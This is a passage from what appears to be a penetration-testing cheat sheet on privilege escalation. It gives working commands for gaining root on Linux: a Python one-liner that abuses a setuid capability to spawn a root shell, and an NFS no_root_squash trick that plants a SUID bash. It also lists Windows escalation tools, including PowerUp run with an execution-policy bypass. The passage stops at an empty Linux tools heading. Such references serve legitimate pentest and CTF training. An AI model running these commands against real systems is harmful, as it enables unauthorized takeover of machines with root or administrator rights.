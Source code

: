 #### 6. Capabilities

```bash
# Find files with capabilities
getcap -r / 2>/dev/null

# Example: python with cap_setuid
# Create privilege escalation script
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### 7. NFS Shares

```bash
# Check NFS exports
cat /etc/exports

# If no_root_squash is set
# Mount from attacker machine
mkdir /tmp/nfs
mount -t nfs target:/share /tmp/nfs

# Create SUID binary
cp /bin/bash /tmp/nfs/bash
chmod +s /tmp/nfs/bash

# Execute on target
/share/bash -p
```

### Privilege Escalation Tools

#### Windows

```bash
# WinPEAS
winPEASany.exe

# PowerUp
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks

# Seatbelt
Seatbelt.exe -group=all

# SharpUp
SharpUp.exe

# Windows Exploit Suggester
python windows-exploit-suggester.py --database 2021-09-01-mssb.xls --systeminfo systeminfo.txt
```

#### Linux

